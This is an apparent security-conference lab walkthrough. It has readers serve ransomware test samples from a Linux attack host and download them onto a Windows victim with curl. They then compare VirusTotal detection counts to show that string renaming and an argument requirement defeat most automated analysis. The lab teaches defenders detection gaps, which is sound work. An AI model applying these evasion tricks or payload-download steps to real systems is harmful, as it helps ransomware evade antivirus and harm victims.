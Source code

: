 # Detection

## Host the "evil" files.

1. First record your IP address on the eth0 interface. `ip addr`
2. Now change directory into the notransomware directory.
3. Run the following command to serve the files for download.
`python3 -m httpserver`

## Update Lab Files
1. Open a administrative command prompt by clicking the search icon (magnifying glass) in the bottom left.
2. Type cmd and click on the command prompt desktop app icon when it appears.
3. Change directories to the lab files on the desktop. `cd c:\Users\Administrator\Desktop\rsac21-ransom`
4. Update the files from the git repo.  `git pull`

## Download the "evil" files.

1. Switch to the "WIN-VICTIM-HOST-#" by pressing **ctrl+shift+alt**.
2. Do some pre-flight checks, you can access all the required programs by clicking the search bar in the bottom left and typing their respective names. When they appear in the start menu results, double click them.
- Is a folder on the desktop called? (If not, launch a command prompt and run `git clone `)
- Is firefox installed? (If not, launch a command prompt and run `choco install firefox`)
3. Open a command prompt. 
4. Run the following command with my new favorite living off the land binary for dowloading remote files. 
`curl http://172.31.24.<last octet of your linux attack host>:8000/test1.exe -o test1.exe`
5. Once you have this worked out, download all theo ther files you created on the linux attack host just changing the file names.
6. This is your first detection example...no alerts from windows defender.

## What does virust total have to say about all this?

1. Open firefox and browse to virus total.  www.virustotal.com
2. Click the **choose a file** optiont to upload for analysis.
3. Browse to C:\Users\Administrator and select test1.exe.
4. Wait for the analysis. It will look something like this, but may have changed with all of the concurent uploads of a similar file.
> Remember this is was the file that you saved as is and compiled in the amd64 architecture. Having just 3 detections for what will effectively encrypt files in your homedrive and attempt to connect to a server, while dropping a key and ransom note is pretty scray in itself.
5. Now Click the upload button in the top left beside the search bar and upload the second sample test2.exe
> This was the sample you simply replaced all occurances of the word encrypt with another word. This now comes back with only 2 detections. Putting on show case that changing common words and text associated with malware inside binaries will trick a number of detections in iteslef. Not to mention this changes zero function of the binary while completely changing the hash.
6. Finally, upload the 32bit version of this sample. Same sample as before, but compliled for the more commonly execuable 32bit architecture.
> By nature of the architecture you will see many more detections now, many of the static and behavioral analysis tools are tuned toward 32bit binaires and instructions.
7. All that's great but now upload the final sample where you added the argument requirement for it to run. Test232-args.exe.
> You will notice nearly all the detections go away now, even in the 32bit architecture. All of that work spent on creating different types of anti analysis techiniques and simply adding an argument requirement will fool nearly every auto analysis capability out there, making the detection solely reliant on strings.

Let's return to talk about what just happened and get ready to move on to live reponse.



